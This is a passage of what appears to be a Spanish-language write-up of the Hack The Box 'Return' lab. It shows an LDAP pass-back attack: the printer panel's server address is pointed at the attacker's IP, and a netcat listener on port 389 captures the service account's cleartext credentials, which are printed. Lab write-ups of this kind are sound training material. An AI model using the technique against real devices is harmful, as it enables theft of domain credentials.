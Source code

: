 Pero bueno no vemos nada interesante si inspeccionamos la parte de `password` vemos que no solo `*`

![](/assets/images/htb-writeup-return/web3.png)

## LDAP Credentials

Algo que podemos hacer es cambiar el `Server Address` a poner nuestra `IP` y estar en escucha por el puerto `389` con `netcat` para ver si recibimos algo 

```bash
❯ nc -nlvp 389
Listening on 0.0.0.0 389
```

Al igual que podemos estar capturando trafico para analizar la captura con `wireshark`

```bash
❯ tcpdump -i tun0 -w Captura.cap -v
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
Got 0
```

Ahora solo le damos a `update`

Y recibimos al parecer una contraseña 

```bash
❯ nc -nlvp 389
Listening on 0.0.0.0 389
Connection received on 10.129.95.241 55720
0*`%return\svc-printer
                      1edFg43012!!
```
